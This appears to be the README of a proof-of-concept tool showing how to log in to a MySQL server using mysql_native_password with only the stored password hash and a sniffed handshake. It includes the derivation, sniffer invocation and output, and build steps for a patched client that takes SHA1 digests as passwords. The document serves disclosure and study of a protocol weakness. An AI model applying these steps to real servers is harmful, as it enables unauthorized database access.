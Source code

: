mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`) is
used.

The main prerequisites are:

- to know the hashed password for a certain user (`password` column of the
  `mysql.user` table);

- to be able to sniff a successful authentication handshake (i.e., no SSL).

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
> SELECT user, password FROM mysql.user;
+------------------+-------------------------------------------+
| user             | password                                  |
+------------------+-------------------------------------------+
| root             | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+------------------+-------------------------------------------+

> SELECT PASSWORD('password');
+-------------------------------------------+
| PASSWORD('password')                      |
+-------------------------------------------+
| *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+-------------------------------------------+

> SELECT SHA1(UNHEX(SHA1('password')));
+------------------------------------------+
| SHA1(UNHEX(SHA1('password')))            |
+------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19 |
+------------------------------------------+
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator;

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the sniffed handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of the exploit, this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartexts.

### Build the sniffer

To build `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to display the usage message.

In accordance with the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

Once a successful authentication handshake is captured the output will be like:

    [+] Input:
    [+] - username ........................ 'root'
    [+] - salt ............................ 3274756c42415d3429717e482a3776704d706b49
    [+] - client session password ......... 6d45a453b989ad0ff0c84daf623e9870f129c329
    [+] - SHA1(SHA1(password)) ............ 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] Output:
    [+] - SHA1(password) .................. 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
    [+] Check:
    [+] - computed SHA1(SHA1(password)) ... 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] - authentication status ........... OK

If no account information are provided, the tool will only display the salt and
the session password.

### Build a patched MySQL client

This may take some time:

1. download and extract the MySQL source code at revision
   `23032807537d8dd8ee4ec1c4d40f0633cd4e12f9`:

        wget https://github.com/mysql/mysql-server/archive/23032807537d8dd8ee4ec1c4d40f0633cd4e12f9.zip
        unzip 23032807537d8dd8ee4ec1c4d40f0633cd4e12f9.zip
        cd mysql-server-23032807537d8dd8ee4ec1c4d40f0633cd4e12f9/

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build (without server) with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be in `client/mysql`, optionally install it
   globally and delete the whole source code:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1

Use `mysql-unsha1` as the original MySQL client, just remember that the
`--password[=password], -p[password]` option now requires a 40-digit hexadecimal
SHA1 string.

In accordance with the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
+---------------------------------------------------------+
| SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8')) |
+---------------------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19                |
+---------------------------------------------------------+
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
